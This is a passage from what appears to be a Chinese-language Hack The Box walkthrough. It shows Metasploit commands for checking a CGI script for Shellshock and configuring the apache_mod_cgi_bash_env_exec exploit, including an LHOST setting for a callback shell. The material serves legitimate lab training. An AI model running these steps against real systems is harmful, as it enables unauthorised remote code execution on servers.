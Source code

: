 并将 TARGETURI 设置为

```
set TARGETURI /cgi-bin/user.sh
```

然后使用以下命令运行辅助程序

```
check
```

主机很可能容易受到 Shellshock 的攻击！

现在让我们用以下命令来检查漏洞

```
use 5
```

或者命令

```
exploit/multi/http/apache_mod_cgi_bash_env_exec
```

我设置了 RHOSTS、TARGETURI 和 LHOST——我的是 10.10.14.28。你需要用你自己的主机来设置它。你可以在这里查看你的[。](https://www.hackthebox.eu/home/htb/access)

![Screenshot-2020-08-28-at-22.17.54](img/739afe2c51a263a94d562850548a9162.png)

我检查选项，看看是否一切都设置正确。

![Screenshot-2020-08-28-at-23.03.45](img/893c56dc946e28290fd7210d8b7e03fe.png)

然后，我使用

